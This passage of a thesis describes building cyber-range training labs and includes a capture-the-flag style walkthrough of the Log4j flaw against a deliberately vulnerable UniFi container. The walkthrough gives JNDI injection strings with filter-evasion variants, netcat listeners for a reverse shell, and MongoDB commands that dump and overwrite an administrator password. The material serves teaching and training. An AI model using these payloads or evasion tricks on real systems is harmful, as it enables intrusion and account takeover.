            \item Accept TCP and UDP traffic in the ``prerouting'' chain according to the information provided in the example of Listing \ref{lst:ansible_vars_7} (p. \pageref{lst:ansible_vars_7}). We also consider the target machine and the destination port number in this regard.
            \item A ``postrouting'' NAT rule for the traffic reaching the target machines, as in the example of Listing \ref{lst:ansible_vars_7} (p. \pageref{lst:ansible_vars_7}).
        \end{itemize}
\end{itemize}

With both the internal and external firewalls, we intend to restrict the allowed traffic from the devices externally placed with respect to the organization's network. Only certain services in the DMZ should be allowed external access, never devices from the internal network. On the other hand, connections from inside the corporate network are allowed. This configuration uses \textit{iptables} to create a realistic firewall setup. Therefore, rules are not based on highly-complex logic like which domains an internal device tries to access and if they should be blocked, according to a blocklist of IP addresses and domains.

\subsubsection{Entry point Role} \label{sec:ansible_entrypoint_role}

The \textit{entry point} role performs the necessary tasks to configure a particular machine, as defined at Listing \ref{lst:ansible_vars_8} (p. \pageref{lst:ansible_vars_8}). It creates the environment needed to run the setup scripts, which may include copying template files to the Docker container and then executing the entry point script. This role distinguishes when being conducted by the \textit{localhost} machine or a different machine. For the \textit{localhost}, the entry point script is run without any previous configuration. In the case of the other machines, the Jinja2 template setup files are first copied to the target container, and then the entry point script is run.

\subsubsection{Mesh Role} \label{sec:ansible_mesh_role}

The \textit{mesh} role handles devices that need to join the Tailscale network, called \textit{tailnet}. As explained in Section \ref{sec:selected_tools_tailscale} (p. \pageref{sec:selected_tools_tailscale}), this network allows communication between each device that belongs to it. This is useful when focusing on cloud deployments if we, for instance, want to connect to port 6080 in our attacker machine to be able to control it remotely and, as we will see, in the Windows-based scenarios to access the Windows Vagrant box using \textit{Remote Desktop}.

This role's actions start by installing Tailscale and starting the \textit{tailscaled} service. After this, the container is instructed to join a specific Tailscale network using an authentication key and by specifying a hostname for the machine. An authentication key allows the addition of new nodes to the Tailscale network without needing to sign in to the network. A reusable authentication key was created to connect multiple nodes to the network. Each time a new node joins the Tailscale network using this authentication key, it enters the group of Tailscale ephemeral nodes, which essentially refer to short-lived devices that are automatically removed from the network after a short period of inactivity and are immediately removed from the network in case they are instructed to do so. Also, the usage of the same hostname for a particular machine allows accessing it using a Tailscale feature called ``MagicDNS'' which essentially registers all the DNS names for the network devices using the following schema: \texttt{[Device Hostname].[Network DNS Name]}
The device's hostname was already mentioned above. By default, the network's DNS name is chosen by Tailscale upon the first usage but can be modified afterward. The ``MagicDNS'' configuration provides easy access to machines when they are not under our control. This will be useful in Section \ref{sec:validation_cloud_deployment} (p. \pageref{sec:validation_cloud_deployment}).

\section{Custom Scenarios} \label{sec:validation_custom_scenarios}

The set of custom scenarios involves three distinct cyber ranges:

\begin{itemize}
    \item A Linux scenario that explores the Apache Log4j vulnerability (\textit{CVE-2021-44228}).
    \item A Windows-based scenario that explores a Ransomware malware executable that encrypts a set of files.
    \item A Windows-based scenario that exposes a vulnerable Active Directory Domain Controller that provides a vast attack surface where the trainee can experiment with several attacks. 
\end{itemize}

For each challenge, details on how to solve them will be revealed. We will present some of the intended solutions to get the secret flag and, when available, unintended solutions.

\subsection{Log4j Scenario} \label{sec:validation_log4j_scenario}

The Apache Log4j vulnerability started haunting the world during the last month of 2021. It was based on the Java-based logging package Apache Log4j and essentially allowed an attacker to execute code on a remote server, the so-called Remote Code Execution (RCE). The scope of machines this vulnerability targeted was enormous, and some put it on the same level as the most severe vulnerability along with \textit{Heartbleed} and \textit{Shellshock}. CVE-2021-44228\footnote{\url{https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-44228}} details which Log4j versions were affected and gives a brief insight into what is the vulnerability about. In simple words, an attacker that can control log messages may run arbitrary code by means of a process called message lookup substitution.

Back in 2013, there was an upgrade in the Log4j package: the ``JNDILookup plugin''. JNDI means Java Naming and Directory Interface and is a directory service that allows finding data in the form of a Java object through a directory. A directory service is a database for storing information on users and resources. It is often used to manage access privileges, monitor and control access to applications and infrastructure resources. JNDI supports a wide variety of directory services, being the most famous the Lightweight Directory Access Protocol (LDAP). This was the most targeted directory service in Log4j exploits. Java programs may use JNDI and LDAP together to find a Java object containing specific data. For instance, an URL such as \texttt{ldap://localhost:389/o=FEUPThesis} retrieves information on the \textit{FEUPThesis} object from the LDAP server running in port 389 of the same machine. In this example, we used the combination \textit{localhost:389}, but the LDAP server could be located anywhere on the internet. Suppose an attacker controls the above-mentioned LDAP URL. In that case, they can potentially cause a program to load a malicious object from a server under their control and get remote execution control over a machine.

Apache Log4j's syntax\footnote{\url{https://logging.apache.org/log4j/2.x/manual/configuration.html}} follows the pattern \texttt{\$\{prefix:name\}} where \texttt{prefix} is a lookup in the list of available lookups\footnote{\url{https://logging.apache.org/log4j/2.x/manual/lookups.html}}. Examples such as \texttt{\$\{java:version\}} would also be accepted and, in this case, would retrieve the current version of Java. Lookup messages and logged messages were allowed to be used in the Log4j configuration. The latter was what caused the vulnerability.

All the attacker has to do is find an input that gets logged and add a malicious JNDI query that includes a malicious LDAP server controlled by the attacker. On web servers, logged information typically consists of the \textit{User-Agent} HTTP header or the inputted \textit{username}, for instance.

Some techniques can be used to evade simplistic blocking of strings like \texttt{\$\{jndi:ldap} by using some features of Log4j. For instance, we can use the \texttt{\$\{lower\}} feature which lowercases characters: \texttt{\$\{jndi:\$\{lower:l\}\$\{lower:d\}a\$\{lower:p\}://example.com/x\}}. The usage of the \texttt{:-} syntax enables the attacker to set a default value for a lookup, and if the value looked up does not exist, then the predefined default value is considered:

\texttt{\$\{jndi:\$\{env:NOTEXIST:-l\}d\$\{env:NOTEXIST:-a\}\$\{env:NOTEXIST:-p\}}


Similar techniques use strings like \texttt{\$\{\$\{::-j\}\$\{::-n\}\$\{::-d\}\$\{::-i\}}. Other techniques include encoding \textit{\$\{} as \textit{\%24\%7B} or \textit{\textbackslash u0024\textbackslash u007b}.

During this period of cyber war, there were attempts to gather information on the target machine using many crafted strings, which attempted to collect the target machine's users, Docker image names, home directory paths, users and passwords from databases, and hostnames, among others.

\subsubsection{Scenario Construction} \label{sec:validation_log4j_scenario_construction}

This scenario is based on the Tier 2 Unified\footnote{\url{https://www.hackthebox.com/machines/unified}} Hack The Box challenge and in the \textit{SprocketSecurity} blog post \cite{sprocketsecurity_ref}, essentially reproducing a vulnerable version of the Ubiquiti UniFi network application dashboard. This works as an interface manager for all the hardware devices belonging to Ubiquiti's mesh network allowing the changing of several network-related configurations. To replicate the scenario, we used Goofball222's GitHub UniFi Docker container repository\footnote{\url{https://github.com/goofball222/unifi}}. We opted for using version 6.4.54 and tweaked the \textit{Dockerfile} suited for Alpine-based distributions by installing the \texttt{python3} package
and removing the \texttt{JVM\_EXTRA\_OPTS=-Dlog4j2.formatMsg\\NoLookups=true} environment variable that turns off variable lookups, which was turning the network application to be not vulnerable to the Log4j exploit. It's also important to refer that this configuration uses a MongoDB database that supports the UniFi Network Application, where users are saved.

% CA
At first, we could not get an HTTPS connection with UniFi's dashboard as a default CA certificate was generated by an untrusted CA. Therefore, it was time to create our Certificate Authority, responsible for issuing the signed public-key digital certificates associated with a predefined domain name. Turning our created CA into trusted in the target device made it possible to achieve an HTTPS connection. Appendix \ref{ap1:ansible_generate_ssl_certificate_unifi} (p. \pageref{ap1:ansible_generate_ssl_certificate_unifi}) presents the commands that were used to create the CA's key pair, generating a CSR with the \textit{subjectAltName} extension and getting the final public-key certificate signed by the new root CA, as well as the private key's password protection removed:

\lstset{
  language=bash,
  basicstyle=\ttfamily,
  showstringspaces=false,
  commentstyle=\color{red},
  keywordstyle=\color{blue}
}

The steps to load the certificates into the Docker container were as follows:

\begin{enumerate}
    \item Map the certificates folder path to the \texttt{/usr/lib/unifi/cert} volume exposed by the container.
    \item Insert in the certificates folder the PEM format SSL private key file corresponding to the server's SSL certificate under the name of \texttt{privkey.pem}.
    \item Insert in the certificates folder the PEM format SSL certificate with the full certificate chain under the name of \texttt{fullchain.pem}.
\end{enumerate}

The private key file belonging to UniFi's dashboard domain was obtained in the final command from Appendix \ref{ap1:ansible_generate_ssl_certificate_unifi} (p. \pageref{ap1:ansible_generate_ssl_certificate_unifi}). The full chain file is simply a concatenation of the public-key certificates of the CA and the \texttt{example-domain.ui.com} server domain. 

Furthermore, Docker entry point scripts were changed to always reload SSL certificates inside UniFi's Docker container upon new executions. This was not the default behavior, as the Docker image was previously configured to issue a file with the hashes of the certificates and check for its existence. In such cases, SSL certificates were not reloaded.

% Entrypoint Script

After the above-mentioned SSL certificates are issued, the newly created root CA's public-key certificate is needed in the attacker machine to be considered trustworthy. This way, when the trainee visits the UniFi dashboard, the website appears with a legitimate HTTPS connection. Appendix \ref{ap1:log4j_entrypoint_script} (p. \pageref{ap1:log4j_entrypoint_script}) shows details on the entry point script.

Every template file is within the scenario's setup folder. Firstly, we run a Python script that will be promptly explained. Then, we copy the root CA's public-key certificate into a special \texttt{ca-certificates} folder and run the \texttt{update-ca-certificates} command, which turns our newly placed root CA certificate into system-wide trusted. So, every digital certificate signed by this new root CA will be deemed safe. After this, we need the Firefox browser to consider this CA safe. So we copied the \texttt{policies.json} file into a special folder.

\begin{lstlisting}[caption=Firefox's Policies File.,numbers=none,label={lst:firefox_json_policies}]
{
    "policies": {
      "Certificates": {
        "ImportEnterpriseRoots": true,
        "Install": [
          "ca.crt",
          "/setup/ca.crt"
        ]
      }
    }
  }
\end{lstlisting}

Listing \ref{lst:firefox_json_policies} (p. \pageref{lst:firefox_json_policies}) presents the policies file, which is read on every Firefox's new execution.

% Selenium

After loading the SSL certificates, we obtained the desired effect, an HTTPS connection when loading UniFi's dashboard. Still, there is a slight problem. When hitting the dashboard's web page for the first time, the initial wizard setup was shown. We had to overcome this by creating a Selenium script for this effect using Firefox's \textit{WebDriver} to instruct the browser's behavior remotely. The tasks performed by Selenium can be summarized in:

\begin{itemize}
    \item Visiting UniFi's web dashboard page.
    \item Setting administrator credentials for accessing UniFi's web page. These were specified in the YAML format as custom variables of the vulnerable service in the scenario's specific variables.
    \item Clicking several wizard setup buttons to move onto more advanced setup stages.
\end{itemize}

With these configurations set, we are ready to move into the exploitation phase.

\subsubsection{Exploit} \label{sec:validation_log4j_exploit}

The goal of the Log4j exploit on UniFi's software is to obtain a reverse shell, get the secret flag, and leverage access to get the administrative credentials on the UniFi MongoDB instance.

Initially, we can dig a little into the reconnaissance process and check which ports are open by default in the victim machine using \textit{nmap}. We can see port 8443, which is where UniFi's interface is.

Then, we access the \texttt{https://example-domain.ui.com:8443} domain and get the login page from Fig. \ref{fig:log4j_unifi_initial_dashboard} (p. \pageref{fig:log4j_unifi_initial_dashboard}).

\begin{figure}[H]
    
\includegraphics[width=12cm]{figures/unifi_initial_dashboard.png}
    \caption{UniFi's Initial Dashboard.}
    \label{fig:log4j_unifi_initial_dashboard}
\end{figure}

As mentioned earlier, we need to target a field we know will be logged by Apache Log4j using a malicious JNDI query. In our case, it is the \texttt{remember} field of the POST request.

Then, we can test if the web application is vulnerable to the Log4j attack. First, we listen for connections on port 9999 using \textit{netcat} with: \texttt{nc -lnvp 9999}. From the POST request issued when submitting the login form, we only need to change the \texttt{remember} field to \texttt{\$\{jndi:ldap://172.152.0.2:9999/whatever\}} and issue the modified POST request. Notice \texttt{172.152.0.2} is the attacker machine's IP address.

As we get a connection to port 9999 from the vulnerable Log4j container, the web application is indeed susceptible to the exploit. The next step is to use the Rogue-JNDI GitHub tool\footnote{\url{https://github.com/veracode-research/rogue-jndi}} to obtain a reverse shell on the target. Essentially, this tool sets up a malicious LDAP and HTTP server for JNDI injection attacks. When the tool first receives a connection from the vulnerable client to connect to the local LDAP server, it responds with a malicious entry containing a payload that will be useful to achieve a Remote Code Execution. The steps to build upon this foundation are to stage an LDAP Referral Server that will redirect the initial client request of the victim to an HTTP server where a secondary payload is hosted that will eventually run code on the target. 

The procedures to set up the exploit include first using \textit{netcat} to listen for inbound connections on port 4444 with the command \texttt{nc -lnvp 4444} and then following the steps of Appendix \ref{ap1:unifi_clone_rogue_jndi} (p. \pageref{ap1:unifi_clone_rogue_jndi}):

\begin{enumerate}
    \item Clone the Rogue JNDI tool and build the project into a JAR file using Maven.
    \item Generate the Base64 payload that will run in the victim's server. It connects to the attacker machine on port 4444, redirecting both the standard input and standard output to the remote machine so the attacker can have complete control over the victim.
    \item Running the Rogue JNDI tool to create malicious LDAP and HTTP servers with the command that will trigger a reverse shell.
    \item Issue a cURL command with the malicious JNDI query and run the exploit.
\end{enumerate}

As a result, we obtain a reverse shell in our initial \textit{netcat} listener. We now have access to the target server under the \textit{unifi} user. Running a simple \texttt{ls -la} command, we can see there is a weird file with the name ``\texttt{...}'' (3 dots). If we open it, we find the challenge flag \texttt{flag\{l3ts\_un1f1\_e\\very0ne\_l0g4j\}}.

\subsubsection{Post Exploitation} \label{sec:validation_log4j_post_exploitation}

Some lateral movement can be performed after getting the reverse shell on the victim. For instance, we can try using \textit{hashcat} to crack the administrative credentials for the UniFi network application stored in the MongoDB instance mentioned earlier in the Docker container construction process. Or, we can add a new administrative user, for example. In an actual world setup, this would allow access to a whole new range of devices, possibly with vulnerabilities that would easily allow a way in. Persistence tasks could also be considered to enable consistent access to the victim's machine.

After getting the reverse shell prompt, we can first check if a MongoDB instance is running. We can run \texttt{ps aux | grep mongo}. The result shows port 27117 listening for incoming MongoDB connections. Then, we check which databases are available and get the contents of the \textit{admin} database.

\begin{lstlisting}[caption=Fetching Contents of MongoDB Admin Collection.,numbers=none,label={lst:unifi_mongodb_admin_contents}]
mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"
MongoDB shell version v3.4.4
connecting to: mongodb://127.0.0.1:27117/ace
MongoDB server version: 3.4.4
{
        "_id" : ObjectId("64750f87f19ea8014a2ceb6d"),
        "name" : "test_user",
        "email" : "admin@hotmail.com",
        "x_shadow" : "$6$msad4FLZ$WwZoWNYAGbcGY3bF8HVBQ.t.69dt/ogu1nsmeTjsorz4dBl3Q0Waoya35R.Gm0qEgPoVsUorIhVRVpoiG8cFo/",
        "time_created" : NumberLong(1685393287),
        "last_site_name" : "default"
}
\end{lstlisting}

Listing \ref{lst:unifi_mongodb_admin_contents} (p. \pageref{lst:unifi_mongodb_admin_contents}) shows the existence of an administrator user named \textit{test\_user}, its email, and the password hash of the user, which can be seen in the \textit{x\_shadow} field. This is a SHA-512 hash due to the \textit{\$6\$} characters at the start. As mentioned, cracking this hash to get the provided password would be possible. However, this could take a long time, so we updated the current administrator's password. We first generate a SHA-512 hash of the string ``mypassword'' using the command \texttt{mkpasswd -m sha-512 mypassword}. Lastly, the command on Listing \ref{lst:unifi_mongodb_update_admin_password} (p. \pageref{lst:unifi_mongodb_admin_contents}) updates the administrator account password using the previously generated SHA-512 password and the \texttt{ObjectId} of the currently existing administrator from Listing \ref{lst:unifi_mongodb_admin_contents} (p. \pageref{lst:unifi_mongodb_admin_contents}).

\begin{lstlisting}[caption=Update Administrator User Account Password.,numbers=none,label={lst:unifi_mongodb_update_admin_password}]
mongo --port 27117 ace --eval 'db.admin.update({"_id":ObjectId("64750f87f19ea8014a2ceb6d")},{$set:{"x_shadow":"$6$zsmtIX0rAM.G4P8a$TKt4eg15VC11zpQaCVS6nLHdOYOzlfjO5m3Tvle7rtc1SOvMRYTT0jBBnRc
CqY5lAOLDNst3xfGQdX99GtpD0."}})'
\end{lstlisting}

The result is that now the \textit{test\_user} account has the newly replaced password \textit{mypassword}, and we can enter UniFi's network application and completely control it.

\subsection{Ransomware Scenario} \label{sec:validation_ransomware_scenario}

The Ransomware scenario is our first Windows-based scenario, opening the door to this new dissertation scope. The initial idea was to combine both Linux scenarios and Windows scenarios. We wanted to continue using containers to maintain consistency in the overall project. Still, since the development was based on a Linux host machine, and the underlying operating system resources and drivers used were also Linux-based, there was no way to create Windows containers. This happens because Docker is an OS-Level Virtualization, and the Docker daemon provides each container with the necessary kernel-level properties for it to be able to run. Due to this, Linux applications run on a Linux machine, and Windows applications run on a Windows platform. Still, there are exceptions in Windows due to the existence of \textit{Linux Subsystem}, making it possible for a Linux container to run on Windows. With this in mind, the solution we came up with was to use Linux containers with KVM installed to run a Windows Vagrant box that would allow remote control. In the case of the Ransomware scenario, the malicious payload comes in the form of an executable (\texttt{.exe}) file, and having a Windows machine to run this script was the ideal situation. 

This challenge distinguishes itself from the other scenarios because it is not attack-oriented. As such, there is no attacker machine and, therefore, no external network. Still, the final goal stays the same, which is to get the secret flag. This scenario is forensics-oriented in the sense that the trainee has to use a set of tools to debug the executable file, understand the consequences of executing the payload, and develop the reverse engineering skills necessary to get the flag.

\subsubsection{Windows Vagrant Box Inside Linux Docker Container} \label{sec:validation_windows_vagrant_inside_linux_docker}

As mentioned, one cannot run Linux and Windows containers simultaneously using the same Docker daemon. The solution to overcome this problem was to install a Windows Virtual Machine inside a Linux container. From the Docker daemon's perspective, all containers are Linux-based. Nonetheless, some of those containers run a hypervisor, on top of which there is a Windows Vagrant box. Ultimately, the goal is to configure and access the Windows machine through Remote Desktop (RDP). One may ask: \textit{Why install a VM inside a container?} This may seem strange to many since installing the VM directly on the base OS is always possible without needing an extra container layer. However, running a VM inside a container has advantages in spinning up multiple identical Windows VMs, saving tremendous resources, mainly in terms of disk space.

When comparing a scenario where only a single VM runs directly on the base OS versus a scenario where the VM is containerized, we find both situations consume similar resources. For instance, a VM that takes 30GB of disk space will take 35GB on a containerized setup. If we run six copies of a VM, the occupied disk space increases to 180GB, as each copy takes the exact amount of disk space. The situation slightly differs in the case of six copies of containerized VMs. In Docker, there are two distinct concepts: images and containers. Images turn out to be read-only and are the core of containers that are created from a read-only layer, the image. On top of this read-only layer, they add their own read-write layer, which differs between containers. Considering the example above, where the Docker image size is 35GB when creating six containerized VMs, each container will only vary in its read-write layer interacting with the read-only image. Assuming this read-write layer has a size of 10GB, all six containers have a combined size of 60GB on top of the 35GB Docker image, making a total of 95GB. To take this even further, we could consider using linked clones in Vagrant VMs in which new VMs only differing in disk images are created using the parent disk image belonging to a master VM.

RDP access was a desirable feature in these setups, but contrary to what happens in Linux,  Windows containers cannot have a Desktop Environment. Instead, they are designed to run services and applications accessible using the PowerShell command line interface. Unlike Linux containers, where the Desktop Environment is an installable component, Microsoft ships Windows containers in a bundle directly with the OS. Microsoft published a set of known base images that form any Windows container's base. For them, there is no installable Desktop Environment component, meaning even if we opted for using Windows containers, the issue of not having the possibility of remotely controlling the UI would be present.

The architecture of the Vagrant box can be seen in Fig. \ref{fig:windows_vagrant_box_architecture} (p. \pageref{fig:windows_vagrant_box_architecture}).

\begin{figure}[H]
    
\includegraphics[width=9cm]{figures/vagrant_box_container_diagram.pdf}
    \caption{Architecture Of Windows Vagrant Box Inside Docker Container.}
    \label{fig:windows_vagrant_box_architecture}
\end{figure}

This setup enabled a fully running Windows OS accessible through RDP, containerized and managed by Docker daemon. Five different technologies are worth mentioning:

\begin{itemize}
    \item \textbf{Base Operating System}, that is the main hosting platform.
    \item \textbf{Docker Daemon}, which handles the final Docker image (\textit{Ubuntu 18.04 Linux}) out of which we will spawn a container. The Docker image's main function is to run a hypervisor on which the Windows VM will run.
    \item \textbf{Hypervisor on the Docker Image} (\textit{KVM-QEMU}), which enables the installation and management of the Windows VM.
    \item \textbf{Windows VM}, the machine, a pre-packaged Windows 10 Enterprise Evaluation Vagrant box\footnote{\url{https://app.vagrantup.com/peru/boxes/windows-10-enterprise-x64-eval}}, that is available through RDP.
\end{itemize}

The first step is to build the Docker image with the hypervisor installed. For this, we must ensure virtualization (VT-x) is enabled in the BIOS settings to launch the Virtual Machine. Then, in our \textit{Ubuntu 18.04 Linux} image, we first install the \textit{QEMU-KVM} hypervisor package and \textit{Libvirt}, which is an API library that manages KVM. Afterward, we map the \texttt{/dev/kvm} and \texttt{/dev/net/tu\\n} devices in the host OS inside the container, and the \texttt{/sys/fs/cgroup} directory in the host OS inside the container, ensuring read-write permissions on it. Also, we make the container run in privileged mode, meaning it can access almost all resources the host OS can. Another vital topic worth mentioning is the installation of Vagrant, which is necessary to run the Windows VM. We then download the respective \textit{Vagrantfile}, which contains instructions on how to build the Vagrant box, whose size is about 8.3GB.

Setting up the right \textit{iptables} rules was a challenge. This is extremely important to ensure access to the RDP port on the Vagrant box from out of the container. By default, the Vagrant box configures firewall rules to allow access only from within the hypervisor container, meaning machines external to the hypervisor container do not have access to the Windows Vagrant box. As such, rules that redirect traffic from the base OS to the Vagrant box on RDP are needed. The logic followed is depicted in Fig. \ref{fig:vagrant_iptables_rules} (p. \pageref{fig:vagrant_iptables_rules}).

\begin{figure}[H]
    
\includegraphics[width=13cm]{figures/vagrant_iptables_rules.pdf}
    \caption{Schema of Vagrant \textit{iptables} Rules.}
    \label{fig:vagrant_iptables_rules}
\end{figure}

The inserted \textit{iptables} rules on the hypervisor container concerning NAT and port forwarding from the host OS to the container were:

\begin{itemize}
    \item Forward new TCP connections on ports 3389 (RDP), 5985 (PSRP HTTP), and 5986 (PSRP HTTPS) destined to the Windows VM.
    \item Add a ``prerouting'' rule that changes the destination packet address to the Windows VM on connections reaching ports 3389, 5985, and 5986.
    \item Add a ``postrouting'' rule that changes the source packet address to the hypervisor container on connections reaching ports 3389, 5985, and 5986.
    \item Forward established and related connections from and to the Windows VM.
    \item Reject every other traffic from and to the Windows machine. Notice the previous rules take precedence over this rule.
\end{itemize}

These rules are sufficient for establishing RDP and PSRP (PowerShell Remoting Protocol) connections. The former is a protocol for remote desktop access, while the latter is a protocol that runs over WinRM. This remote management protocol uses a SOAP-based API for communication between the client and the server. Essentially, PSRP establishes remote sessions with the Windows machine, runs PowerShell commands and scripts on it, and receives the results back.

% Vagrant Box inside Linux with KVM installed (iptables, rdesktop)

The PSRP traffic redirection rules denote how to forward traffic from Ansible instructions destined for Windows machines. After we create the Windows VM, we need to configure it, so we intend to follow the same logic as previously and use Ansible to configure the Vagrant box remotely. This way, commands issued from the base OS go through the Linux hypervisor container using the above-mentioned \textit{iptables} rules and are redirected using NAT to reach the final target, the Windows VM box. This is possible using an SSH connection from the Ansible host machine to the hypervisor container, which will then redirect the traffic. Still, there are incompatibilities with these different remote access protocols between Linux and Windows: SSH and PSRP or WinRM. 

We use a PSRP Ansible connector that connects to Windows-based machines using the PSRP protocol. We could also have chosen a WinRM Ansible connector. Still, PSRP offers the possibility to use a SOCKS5 proxy, which is suited for handling connections of Windows hosts sitting behind a bastion, in our case, the hypervisor machine. So, our current setup uses two different Ansible connectors: the Docker one that connects to the Linux containers and the PSRP one that connects to the Windows VM.

In the above paragraph, we mentioned the SOCKS5 proxy, which routes traffic back and forth between two distinct actors, acting as a middleman between the two. Packets going through this proxy are not modified nor encrypted, only in cases where traffic is encrypted through an SSH connection, as it currently happens, from the Ansible host to the bastion host. This SOCKS5 proxy is needed to forward WinRM commands to the bastion host. As mentioned, SSH creates incompatibility issues as it is only suited for remote access commands on Unix-like systems.

Fig. \ref{fig:vagrant_kvm_host} (p. \pageref{fig:vagrant_kvm_host}) shows a basic outline of the current configuration.

\begin{figure}[H]
    
\includegraphics[width=13cm]{figures/vagrant_kvm_setup.pdf}
